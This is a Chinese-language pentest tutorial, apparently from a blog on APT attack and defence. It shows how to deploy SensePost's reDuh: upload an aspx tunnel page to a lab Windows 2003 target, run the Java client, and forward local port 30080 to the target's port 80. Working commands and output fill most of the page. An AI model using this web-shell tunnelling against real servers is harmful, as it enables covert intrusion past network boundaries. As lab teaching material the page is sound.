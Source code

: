 # 专注APT攻击与防御
https://micropoor.blogspot.com/

**reDuh简介：**

reDuh是sensepost由2008-07年发布，从本质上讲，可以将JSP/PHP/ASP/ASPX等页面上传到目标服务器，便可以访问该服务器后面的主机。

BlackHat USA 2008介绍：
https://drive.google.com/open?id=1AqmtuBnHQJS-FjVHzJMNNWokda048By-

Github：
https://github.com/sensepost/reDuh

**攻击机：** 
192.168.1.5 Debian
192.168.1.4 Windows 7

**靶机：** 
192.168.1.119 Windows 2003

**安装：**
```bash
root@John:~# git clone https://github.com/sensepost/reDuh.git
Cloning into 'reDuh'...
remote: Enumerating objects: 47, done.
remote: Total 47 (delta 0), reused 0 (delta 0), pack‐reused 47
Unpacking objects: 100% (47/47), done.
root@John:~# cd reDuh/
root@John:~/reDuh# ls
README.markdown reDuhClient reDuhServers
```
![](media/1baa9c1874d47e57ff19724c1e050dd8.jpg)

**靶机执行：**
以aspx为demo。

![](media/853cde273f8ee0873156e9c624258201.jpg)

**攻击机执行：**
绑定端口：
```bash
root@John:~/reDuh/reDuhClient/dist# java ‐jar reDuhClient.jar http://192.168.1.119/reDuh.aspx
[Info]Querying remote web page for usable remote service port
[Info]Remote RPC port chosen as 42000
[Info]Attempting to start reDuh from 192.168.1.119:80/reDuh.aspx. Using service port 42000. Please wait...
[Info]reDuhClient service listener started on local port 1010
```
![](media/2596f6edba3d76db9a416b2011e8fb9b.jpg)

开启新terminal，建立隧道
命令如下：
[createTunnel][本地绑定端口]:127.0.0.1:[远程端口]
```bash
root@John:~# telnet 127.0.0.1 1010
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Welcome to the reDuh command line
>>[createTunnel]30080:127.0.0.1:80
Successfully bound locally to port 30080. Awaiting connections.
```
![](media/9a14208cab4886588559a38d694a5cf1.jpg)

攻击机端口前后对比：
```bash
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::22 :::* LISTEN 674/sshd
root@John:~# netstat ‐ntlp
Active Internet connections (only servers)
Proto Recv‐Q Send‐Q Local Address Foreign Address State PID/Program na me
tcp 0 0 0.0.0.0:902 0.0.0.0:* LISTEN 809/vmware‐authdlau
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN 674/sshd
tcp6 0 0 :::902 :::* LISTEN 809/vmware‐authdlau
tcp6 0 0 :::1010 :::* LISTEN 6102/java
tcp6 0 0 :::22 :::* LISTEN 674/sshd
tcp6 0 0 :::30080 :::\* LISTEN 6102/java 
```
![](media/525c8fec46511f49176e20b50a017226.jpg)

访问攻击机30080端口，既等价于访问靶机80端口
```bash
root@John:~# curl http://192.168.1.5:30080/
<html> 

<head>
<meta HTTP‐EQUIV="Content‐Type" Content="text/html; charset=gb2312"> 

<title ID=titletext>建设中</title>

</head> 

<body bgcolor=white> 

... 

</body>

</html>
```
![](media/4594e609d339d06fe44ecf11a575c966.jpg)


遗憾的是reDuh年代久远，使用繁琐，并官方已停止维护。但是它奠定了HTTP隧道。

>   Micropoor
